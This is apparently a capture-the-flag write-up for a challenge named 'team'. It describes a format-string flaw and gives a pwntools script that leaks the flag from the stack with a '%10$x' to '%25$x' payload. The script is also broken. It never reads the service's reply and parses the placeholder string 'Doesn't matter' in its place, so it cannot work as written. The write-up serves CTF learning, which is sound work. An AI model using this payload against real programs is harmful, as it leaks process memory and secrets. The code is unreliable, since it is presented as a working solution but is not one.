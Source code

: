 # team 600pts 

##Overview
To start, disassembling the program reveals a format string
vulnerability when it prints the team name.
After much trial and error and not doing anything right at all,
I noticed that using many %x.%x.%x.%x.....%x would essentially 
dump the stack for you. Because I had a poor flag locally,
(a flag.txt file is needed in the same directory to do this chal)
that wasn't extrememly noticable, it took me a long time to realize
the flag was being dumped to the terminal. It was just in little/big 
endian (don't remember which is which) and hex. So copy the values 
from the output, reverse each byte, convert to ascii and you've got 
the flag. 

By observing where your flag was located in the outputted data, you 
could see the flag began 10 words from the beginning of the dump. 
Therefore, using %10$x would cause the 10th value on the stack to be 
printed or the first word of the flag. We now can hardcode exactly 
where the flag will be. The flag is printed in hex, there are 256 
bits in the flag (i.e. 32 bytes or 64 hex characters) so we will 
need to use 16 %x's to grab the entire flag. 

##Code
Import pwn tools, set the context appropriately and connect to 
the remote service. If this is being run on a linux computer, 
it will work locally if in the same directory as the team
executable. Note there also needs to be a ```flag.txt``` file locally. 
Speaking from personal experience and wasted hours, make the contents 
of this flag noticable if it happens to be dumped in the middle of the 
stack.
Pwn tools will run the process and attach it to a port, 
simulating the contest environment quite nicely.
```python
from pwn import *
context(arch='i386', os='linux')

# Challenge originally hosted at hack.bckdr.in 8004
if 'HOST' in args:
    r = remote(args['HOST'], int(args['PORT']))
else:
    l = listen(0)
    l.spawn_process(['./team'])
    r = remote('localhost', l.lport)
```
Next we construct a teamname that will display the 16 words off the stack
that contain the flag. We send this as the teamname and can then 
send anything as the flag.
```python
teamname = "%10$x.%11$x.%12$x.%13$x.%14$x.%15$x.%16$x.%17$x.%18$x.%19$x.%20$x.%21$x.%22$x.%23$x.%24$x.%25$x"

flag = "Doesn't matter"

r.recvuntil("Enter teamname:")

print "[*] Sending teamname"
r.send(teamname + "\n")

r.recvuntil("Enter flag:")
print "[*] Sending flag"
r.send(flag + "\n")
```
We then receive the data containing the flag and 
strip away the unnecessary parts.
```python
f = flag.replace(" ", "").replace(":", "").split(".")
```
The values are backwards on the stack due to
endianness. We can use pwntools' p32() here 
to get the flag values. 
We could optionally 
hex decode the string and then invert it like
so: ```flag += str(i.decode("hex")[::-1])```
but I like pwntools so we'll use that.
```python
flag = ""
for i in f:
	flag += str(p32(int(i, 16)))

print "[*] Flag: " + flag
# RyanAiden
```

